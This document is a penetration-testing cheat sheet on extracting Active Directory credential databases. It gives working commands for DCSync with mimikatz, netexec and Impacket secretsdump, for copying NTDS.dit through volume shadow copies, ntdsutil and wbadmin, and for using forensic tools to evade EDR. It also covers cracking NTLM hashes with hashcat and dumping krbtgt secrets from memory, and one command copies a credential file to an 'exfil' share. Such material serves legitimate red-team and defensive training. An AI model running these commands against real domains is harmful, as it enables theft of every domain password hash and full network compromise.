 # Active Directory - NTDS Dumping

You will need the following files to extract the ntds :

- NTDS.dit file
- SYSTEM hive (`C:\Windows\System32\SYSTEM`)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

- `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
- `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

## DCSync Attack

DCSync is a technique used by attackers to obtain sensitive information, including password hashes, from a domain controller in an Active Directory environment. Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data.

#### From Windows:
- DCSync only one user

  ```ps1
  mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
  ```

- DCSync all users of the domain

  ```ps1
  mimikatz# lsadump::dcsync /domain:htb.local /all /csv

  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds
  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi
  ```
#### From Linux:
- DCSync Using Impacket Secretsdump
  ```bash
  secretsdump.py -outputfile <outfile> -just-dc <domain/user>@<dc ip> 
  ``` 
   Useful Options
  - `-just-dc`: Extracts NTLM hashes and Kerberos keys
  - `-just-dc-ntlm`: Just dump NTLM hashes
  - `-just-dc-user <username>`: Extract only a specific user
  - `-pwd-last-set`: See when the users last changed their password
  - `history`: Dump their password history as well
  - `-user-status`: See if a user is disabled

> :warning: OPSEC NOTE: Replication is always done between 2 Computers. Doing a DCSync from a user account can raise alerts.

## Volume Shadow Copy

The VSS is a Windows service that allows users to create snapshots or backups of their data at a specific point in time. Attackers can abuse this service to access and copy sensitive data, even if it is currently being used or locked by another process.

- [windows-commands/vssadmin](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/vssadmin)

  ```powershell
  vssadmin create shadow /for=C:
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
  ```

- [windows-commands/ntdsutil](https://learn.microsoft.com/fr-fr/troubleshoot/windows-server/identity/use-ntdsutil-manage-ad-files)

  ```powershell
  ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
  ```

- [Pennyw0rth/NetExec](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit) - VSS module

  ```powershell
  nxc smb 10.10.0.202 -u username -p password --ntds vss
  ```

## Forensic Tools

A good method for avoiding or reducing detections involves using common forensic tools to dump the NTDS.dit file and the SYSTEM hive. By utilizing widely recognized and legitimate forensic software, the process can be conducted more discreetly and with a lower risk of triggering security alerts.

- Dump the memory with [magnet/dumpit](https://www.magnetforensics.com/resources/magnet-dumpit-for-windows/)
- Use volatility to extract the `SYSTEM` hive

  ```ps1
  volatility -f test.raw windows.registry.printkey.PrintKey
  volatility --profile=Win10x64_14393 dumpregistry -o 0xaf0287e41000 -D output_vol -f test.raw
  ```

- Use [exterro/ftk-imager](https://www.exterro.com/digital-forensics-software/ftk-imager) to read the disk in raw state
    - Go to `File` -> `Add Evidence Item` -> `Physical Drive` -> `Select the C drive`.
    - Export `C:\Windows\NTDS\ntds.dit`.
- Finally use secretdump: `secretsdump.py LOCAL -system output_vol/registry.0xaf0287e41000.SYSTEM.reg -ntds ntds.dit`

## Extract hashes from ntds.dit

Then you need to use [impacket/secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract the hashes, use the `LOCAL` options to use it on a retrieved ntds.dit

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) also works remotely

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

- `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
- `-user-status`: Display whether or not the user is disabled.

## Extract hashes from adamntds.dit

In AD LDS stores the data inside a dit file located at `C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit`.

- Dump adamntds.dit with Shadow copy using `vssadmin.exe`

    ```ps1
    vssadmin.exe create shadow /For=C:
    cp "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Program files\Microsoft ADAM\instance1\data\adamntds.dit" \\exfil\data\adamntds.dit
    ```

- Dump adamntds.dit with Windows Server Backup using `wbadmin.exe`

    ```ps1
    wbadmin.exe start backup -backupTarget:e: -vssCopy -include:"C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit"
    wbadmin.exe start recovery -version:08/04/2023-12:59 -items:"c:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit" -itemType:File -recoveryTarget:C:\Users\Administrator\Desktop\ -backupTarget:e:
    ```

- Extract hashes with [synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)

    ```ps1
    ntdissector path/to/adamntds.dit
    python ntdissector/tools/user_to_secretsdump.py path/to/output/*.json
    ```

## Crack NTLM hashes with hashcat

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:

- [Rockyou.txt](https://weakpass.com/wordlist/90)
- [Have I Been Pwned founds](https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM))
- [Weakpass.com](https://weakpass.com/)
- Read More at [Methodology and Resources/Hash Cracking.md](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/)

```powershell
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r myrules.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

:warning: If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

- [hashmob.net](https://hashmob.net)
- [crackstation.net](https://crackstation.net)
- [hashes.com](https://hashes.com/en/decrypt/hash)

## NTDS Reversible Encryption

`UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED` ([0x00000080](http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm)), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin.
This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

- List users with "Store passwords using reversible encryption" enabled

    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```

The password retrieval is already handled by [SecureAuthCorp/secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) and mimikatz, it will be displayed as CLEARTEXT.

## Extract hashes from memory

Dumps credential data in an Active Directory domain when run on a Domain Controller.

:warning: Requires administrator access with debug privilege or NT-AUTHORITY\SYSTEM account.

```powershell
mimikatz> privilege::debug
mimikatz> sekurlsa::krbtgt
mimikatz> lsadump::lsa /inject /name:krbtgt
```

## References

- [Diskshadow The Return Of VSS Evasion Persistence And AD Db Extraction - bohops - March 26, 2018](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)
- [Dumping Domain Password Hashes - Pentestlab - July 4, 2018](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
- [Using Ntdissector To Extract Secrets From Adam Ntds Files - Julien Legras, Mehdi Elyassa - 06/12/2023](https://www.synacktiv.com/publications/using-ntdissector-to-extract-secrets-from-adam-ntds-files)
- [Bypassing EDR NTDS.dit protection using BlueTeam tools - bilal al-qurneh - Jun 9, 2024](https://medium.com/@0xcc00/bypassing-edr-ntds-dit-protection-using-blueteam-tools-1d161a554f9f)
